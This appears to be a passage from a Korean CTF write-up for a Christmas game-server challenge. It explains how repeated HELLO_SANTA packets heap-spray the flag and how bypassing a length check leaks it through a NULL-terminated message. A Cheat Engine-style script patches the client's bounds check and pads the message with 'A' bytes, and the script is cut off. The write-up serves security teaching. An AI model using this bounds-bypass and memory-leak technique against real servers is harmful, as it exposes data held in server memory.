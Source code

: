 위 코드를 실행하면 flag 문자열로 힙 스프레이된다.

(서버가 `HELLO_SANTA`패킷을 수신할때마다 기존에 할당된 flag 데이터를 지우지않고 새로운 메모리를 0x20번 할당한다.)

![/assets/2021-01-01/202101_XMAS2.png](/assets/2021-01-01/202101_XMAS2.png)

위 그림은 textmessage.buf의 내용인데 flag 문자열로 힙 스프레이 된 이후에는 높은 확률로 +0x30 offset부터 flag 데이터가 위치하게 된다.

서버 코드의 sendservmsg 함수는 NULL('\0') 까지 읽어 클라이언트에게 메시지를 전달하므로 textmessage.alen 길이를 우회한 다음 0x30 데이터를 전부 "A"로 채우면 뒤에 있는 flag 문자열도 같이 출력될거라고 예상할 수 있다.

```
alloc(sender,255)
alloc(message_type,100)

ac_client.exe+205E0: //bypass client oob
db EB

message_type:
db 'r'
db 'iiiiiiiiiiiiiiii'
db 'iiiiiiiiiiiiiiii'
db 'iiiiiiiiiiiiiiii'
db 'i'

sender:
push 41

push 41
push 41
push 41
push 41
push 41
push 41
push 41
push 41
push 41
push 41
push 41
push 41
push 41
push 41
```